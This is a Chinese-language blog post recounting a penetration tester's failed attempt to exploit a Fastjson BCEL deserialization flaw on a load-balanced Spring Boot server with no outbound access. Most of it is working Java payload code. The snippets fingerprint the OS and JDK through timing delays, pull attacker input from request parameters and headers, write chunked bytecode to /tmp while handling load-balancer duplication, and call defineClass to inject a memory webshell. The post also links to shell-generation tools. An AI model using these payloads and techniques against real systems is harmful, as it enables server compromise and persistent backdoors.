









```
标题: 一次失败的 Fastjson 实战利用
创建: 2023-12-09
更新: 2023-12-09
```

[首发微信订阅号](https://mp.weixin.qq.com/s/sDXvsmIH8fMsOsu8o_SxdQ)

---

### 0x01 前言

在社区中，较少看到关于“失败”案例的文章。本文将记录一次在负载均衡场景下失败的 fastjson 漏洞利用案例。

### 0x02 简介

目标环境

- 黑盒Fastjson，BCEL 利用链
  - payload 长度限制 3000 左右（猜测是代码里对字段长度的限制）
- 只允许 GET 请求方式
- 不出网
- 有多台负载
- 采用 springboot 框架

- ps：项目已经结束一段时间，截图全来自 burp 的历史记录，很难 100% 还原当时的历程，且看即可

### 0x03 漏洞验证

> 漏洞点已做模糊处理

**1、通过延时验证漏洞存在**
- payload 长度 1370
- 延时5秒，BCEL 类加载成功，可确认漏洞存在



### 0x04 漏洞利用

**2、收集目标信息**

> 获取目标操作系统、中间件、框架、JDK版本信息

1）探测操作系统

探测原因
- 文件操作的前提
  - 写 /tmp/ 目录还是其他目录
```java
String osName = System.getProperty("os.name").toLowerCase();
if (osName.contains("nix") || osName.contains("nux") || osName.contains("mac")) {
    Thread.sleep(3000);
} else if (osName.contains("win")) {
    Thread.sleep(6000);
} else {
    Thread.sleep(9000);
}
```
通过以上代码判断目标为 linux 

2）探测中间件和框架

探测原因
- 内存马注入的前提
- payload分离，从request parameter 和 header 获取参数的前提

```java
Map<Thread, StackTraceElement[]> stackTraces = Thread.getAllStackTraces();
for (Map.Entry<Thread, StackTraceElement[]> entry : stackTraces.entrySet()) {
    StackTraceElement[] stackTraceElements = entry.getValue();
    for (StackTraceElement element : stackTraceElements) {
        // element.getClassName().contains("org.springframework.web"
        if (element.getClassName().contains("org.apache.catalina.core")) {
            Thread.sleep(5000);
            return;
        }
    }
}
```

通过堆栈的方式+类名推断目标为 tomcat + springmvc（大概率为springboot）

3）探测 jdk 版本

探测原因
- 低版本 jdk 缺少部分特性，如果构造的 payload 兼容性不够好（语法不支持），会导致误报，影响判断
- 越高的 jdk 就越多的特性，这会让缩短 payload 长度变得更容易

```java
// 获取 Java 版本
String javaVersion = System.getProperty("java.version");
// 解析主版本号
int majorVersion = Integer.parseInt(javaVersion.split("\\.")[1]);
// 进行版本判断
switch (majorVersion) {
    case 5:
        Thread.sleep(1000);
        break;
    case 6:
        Thread.sleep(2000);
        break;
    case 7:
        Thread.sleep(3000);
        break;
    case 8:
        Thread.sleep(4000);
        break;
    default:
        Thread.sleep(5000);
        break;
```

通过以上代码判断出 jdk 版本号为 8

**3、枚举可行的方案**

先贴出结论

- 使用其他请求方式后端应用接受不到参数，请求方式只能为 GET
- GET 提交数据长度限制，需要分离 payload
- fastjson_sink 的 bcel payload 的长度限制在 3000 左右，猜测是代码里对 fastjson_sink 字段长度进行了判断
- 目标不出网
- 框架为 springboot

payload 分离方案

- 业务层面
  - 文件上传功能点（黑盒较困难）

- 代码层面
  - bcel 内嵌文件写入 
    - 忽略，每次能写的的内容长度太短；写入次数越多，成功率越低
  - 远程加载
  - request inputstream
  - request parameter
  - request header

payload 利用方案

- 写入文件马（payload短，成功率高，验证快，springboot环境无效）
- 写入字节码 defineClass 注内存马（payload长，成功率较低，验证较耗时，适用springboot环境）

业务层面优先级 > 代码层面，但是由于是黑盒，业务层面只能靠翻 js 出奇迹


1）文件上传功能点- 失败

> 如果有文件上传功能，则可以直接上传payload，然后用 bcel 去加载执行，顺利的情况基本两个包就搞定，也就不需要再分段写 payload

回看 burpsuite 的 Site map 时，注意到以下响应：


```text
/xxxxServer/show/material?url=[加密字符串]
```

访问该链接发现是个图片，一顿猜测路由触发 tomcat 报错（离成功近了10步）


继续猜，根据路由名称联想隐藏路由，随手 upload，响应码 405（~~离成功近了50步~~）

```text
/xxxxServer/upload/material
```


构造上传包，成功上传文件，并访问到文件（~~离成功近了80步~~）



然后，输 (这里各种猜想验证耗时许久)
- 通过命令执行 + 代码执行的方式去判断目标磁盘上是否有我上传的文件 -> 文件不存在
- 通过命令执行 + 代码执行的方式去判断目标磁盘是否存在 tomcat 的相关文件 (web.xml/index.jsp/index.html/静态文件等) -> 文件不存在

基本可以得出结论
- xxxxServer 应该部署在单独的服务器上，做文件存储使用（可以理解），同 /demo/ 路由所对应的应用不在一台服务器，这条路径宣告失败
- 目标极大概率为为 springboot 框架

2）bcel 内嵌文件写入 - 忽略
每次能写入的内容太短，不考虑

3）远程加载 - 失败

目标不出网，失败（这个很好验证，这里跳过）

4）request header - 成功

已知目标为 tomcat + springmvc 的组合，理论上可以用 https://github.com/pen4uin/java-echo-generator-release 一把梭; 但实际情况是由于长度限制太短，payload 还需手动缩短；

经过多次测试，最终使用 springmvc 的工具类构造符合长度条件的 payload 如下：

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke((Object)null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
// 传入 header name
String headerName = (String)request.getClass().getMethod("getParameter", String.class).invoke(request, "header_name");
// 判断后端接受到是否接收到 header
String flag = (String)request.getClass().getMethod("getHeader", String.class).invoke(request, headerName);
if (flag != null && !flag.equals("")) {
    Thread.sleep(3000L);
}
```

首先判断是否接收到 Host
- 延时成功，说明payload没有问题，后端应用接收到了Host header



测试发现，由于 nginx 的存在，导致很多 header 无法转发到后端应用，探测出来适合传输 payload 的只有 X-Forwarded-For;
后续经过测试， X-Forwarded-For 能传递的内容长度在 1000 左右；在不考虑网络稳定性、负载均衡的情况下，注入内存马的的字节码（[jMG](https://github.com/pen4uin/java-memshell-generator-release)生成）至少需要分16次写入

5）request inputstream - 失败

测试代码

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
InputStream inputStream = (InputStream) request.getClass().getMethod("getInputStream").invoke(request);
BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
StringBuilder stringBuilder = new StringBuilder();
String line;
while ((line = reader.readLine()) != null) {
    stringBuilder.append(line);
}
String code = stringBuilder.toString();
if (!code.contains("ok")) {
    Thread.sleep(3000);
}
```

测试结果
- 全部请求方式均失败

6）request parameter - 成功

测试代码
```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String flag;
// 判断是否能取到通过 request parameter 传入的参数
flag = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"flag"});
if (flag != null && !flag.equals("")) {
    Thread.sleep(3000);
}
```

测试结果
- GET 成功、其他请求方式均失败

后续经过测试，得到 get parameter 能传递的内容长度大概在 2000左右，比 request header 的方式写入次数少一倍（优先方案）

**4、梳理利用思路**

从以上枚举结果可以得到以下方案:

- 在tmp目录创建文件
- 从 request parameter 处获取字节码内容依次追加到文件
- 加载完整字节码进行defineClass注入内存马

下面是具体的代码实现和利用过程

**5、第1次失败的利用**

1）创建文件 - 成功

```java
String fileName = "/tmp/code.txt";
String code = "";
File file = new File(fileName);
if (!file.exists()) {
    BufferedWriter writer = new BufferedWriter(new java.io.FileWriter(fileName, true));
    writer.write(code);
    writer.close();
    Thread.sleep(3000);
}
```

2）判断文件是否存在 - 成功

```java
File file = new File("/tmp/code.txt");
if (file.exists()) {
    Thread.sleep(3000);
}
```

3）拆分内存马的字节码，限制长度为 2000；

内存马字节码最终拆成了8组

4）从 request parameter 获取字节码内容进行写入 - 成功

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String code = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"user_name"});
File file = new File(file_path);
if (file.exists()) {
    BufferedWriter writer = new BufferedWriter(new FileWriter(file_path, true));
    writer.write(code);
    writer.close();
    Thread.sleep(3000);
}
```



重复写入8次，如果连续延时8次，理论上是成功的；但实际情况没有连续延时8次

5）读取字节码进行 defineClass - 失败

带着侥幸的心理进行尝试

```java
try {
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
    byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/code.txt"));
    String base64String = new String(fileBytes, StandardCharsets.UTF_8).replace("\r", "").replace("\n", "");
    byte[] byteArray = base64Decode(base64String);
    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    defineClass.setAccessible(true);
    Class clazz = (Class) defineClass.invoke(classLoader, byteArray, 0, byteArray.length);
    clazz.newInstance();
    Thread.sleep(3000);
} catch (Exception ignored) {
    Thread.sleep(5000);
}
```

延时5 秒， 说明 defineClass 失败




6）排查失败原因

根据经验猜测可能的原因如下：

- BCEL 的类加载问题
  - 已考虑到，可排除
- BASE64解码差异
  - 已考虑到，可排除
- 写入的字节码不完整
  - 有负载
- 写入的字节码不正确
  - 比如 base64 忘记 url 编码等
- 内存马注入器兼容性
- ...

经过依次测试找到了 defineClass 失败的原因：目标有负载

**6、第n次失败的利用 ？**

优化后的代码，主要针对负载的情况

1）创建文件

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String file_path = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"file_path"});
String code = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"user_name"});
if (file_path != null && !file_path.isEmpty()) {
    File file = new File(file_path);
    if (file.exists()) {
        if (file.delete()) {
            BufferedWriter writer = new BufferedWriter(new FileWriter(file_path, true));
            writer.write(code);
            writer.close();
            Thread.sleep(3000);
        }
    }
}
```

优化：
- 不在代码里进行硬编码文件名，尽量排除低级错误（文件名记错/文件已写入过等）



创建文件时写入长度为 2000 的内容

2）追加文件内容

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String file_path = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"file_path"});
String small_size = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"small_size"});
String max_size = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"max_size"});
String code = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"user_name"});
if (file_path != null && !file_path.isEmpty()) {
    File file = new File(file_path);
    // 在写入内容前判断当前文件内容长度
    if (file.exists() && file.length() > Long.parseLong(small_size) && file.length() < Long.parseLong(max_size)) {
        BufferedWriter writer = new BufferedWriter(new FileWriter(file_path, true));
        writer.write(code);
        writer.close();
        Thread.sleep(3000);
    }
}
```

优化：
- 新增 small_size 和 max_size 来排除负载带来的问题
  - 文件写入不完整
  - 文件多次写入相同的内容



创建文件时写入了长度为 2000 的内容，后续追加内容时通过给定的范围对文件的大小进行判断，这样即使多次重放也不会带来其他干扰，以此保证不会出现同样的内容多次写入/内容遗漏的情况，使用举例：

第1次追加内容（创建文件时已写入 2000 长度的内容）
- 限制范围 small_size=1800&max_size=2200

第2次追加内容
- 限制范围 small_size=3800&max_size=4200

第3次追加内容
- 限制范围 small_size=5800&max_size=6200

...

3）读取字节码进行 defineClass - 成功

通过这种方式成功完成了类实例化

```java
try {
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
    byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/code.txt"));
    String base64String = new String(fileBytes, StandardCharsets.UTF_8).replace("\r", "").replace("\n", "");
    byte[] byteArray = base64Decode(base64String);
    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    defineClass.setAccessible(true);
    Class clazz = (Class) defineClass.invoke(classLoader, byteArray, 0, byteArray.length);
    clazz.newInstance();
    Thread.sleep(3000);
} catch (Exception ignored) {
    Thread.sleep(5000);
}
```



并使用类加载的方式分别对注入器类名和内存马类名进行确认，均加载成功，至少说明注入器和内存马均已正常实例化

```java
public ClassExist() throws InterruptedException {
    try {
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        classLoader.loadClass("com.fasterxml.jackson.AbstractMatcherGjListener");
        Thread.sleep(3000);
    } catch (Exception ignored) {
        Thread.sleep(5000);
    }
}
```

可惜的是内存马还是连接失败，虽说有负载但一次都没命中也实在难以理解。

这个站花费了近两天的时间进行测试，虽然还有很多思路待尝试：

- 找其他端口上的web应用，使用 java agent 对所有 pid 进行内存马注入操作
- 注入回显马，通过执行代码排查原因
- ...

但是考虑到当时还有其他目标，以及即使成功注入内存马，可能存在的请求方式限制也会带来很多额外的适配工作，所以还是选择了放弃死磕。


### 0x05 总结

漏洞利用虽然失败了，但也算是为《记一次 Shiro 的实战利用》文章末尾关于负载均衡+不出网利用的遗留问题提供了一种可选方案。


---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)


